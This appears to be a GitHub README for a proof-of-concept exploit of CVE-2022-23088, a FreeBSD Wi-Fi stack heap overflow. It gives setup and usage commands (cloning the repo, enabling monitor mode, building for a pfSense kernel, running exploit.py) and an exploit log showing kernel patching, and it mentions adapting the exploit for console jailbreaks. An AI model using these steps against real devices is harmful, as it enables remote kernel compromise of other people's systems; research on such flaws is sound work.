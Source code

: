 ### CVE-2022-23088 - FreeBSD Wi-Fi Stack Heap Overflow Exploit 

##  Proof-of-Concept (PoC) for exploiting a heap overflow in the FreeBSD Wi-Fi stack 


----------------------------

## 📌 Overview

CVE-2022-23088 is a heap overflow vulnerability in the Wi-Fi stack of FreeBSD, which can be exploited by sending specially crafted Wi-Fi frames.

✅ Work on FreeBSD 13.0=<
✅ Can be modified for PS4/PS5 with jailbreak ??

----------------------------

## 📂 Files Included

exploit.py → The main exploit script

shellcode.bin → Shellcode to be injected into memory

x86.py → Helper functions for calculating memory addresses


-----------------------------

## 🛠️ Requirements

🔹 Wi-Fi card that supports Monitor Mode
🔹 Linux environment (for running the exploit)
🔹 Python dependencies (pip)
```
pip install pyelftools
```

-----------------------------
## Usage :

1️⃣ Running the Exploit on linux :

First, ensure you have a Wi-Fi card that supports Monitor Mode.


wifi0 → Your Wi-Fi network interface (check with ifconfig)

# 1
```
git clone https://github.com/Dark-life944/PoC-PS5-PS4.git && cd PoC-PS5-PS4 && cd CVE-2022-23088
```
# 2
```
sudo ifconfig wifi0 down && sudo iwconfig wifi0 mode monitor && sudo ifconfig wifi0 up
```
# 3 
```
./build.py kernels/pfSense-2.5.2-RELEASE
```
# 4
```
sudo ./exploit.py wifi0 kernels/pfSense-2.5.2-RELEASE
```
# log of the exploit :
- [+] Phase 1: writing page1
- [+] Phase 2: writing L3
- [+] Phase 3: patching kernel
- [+] Phase 4: repairing
- [+] Finished
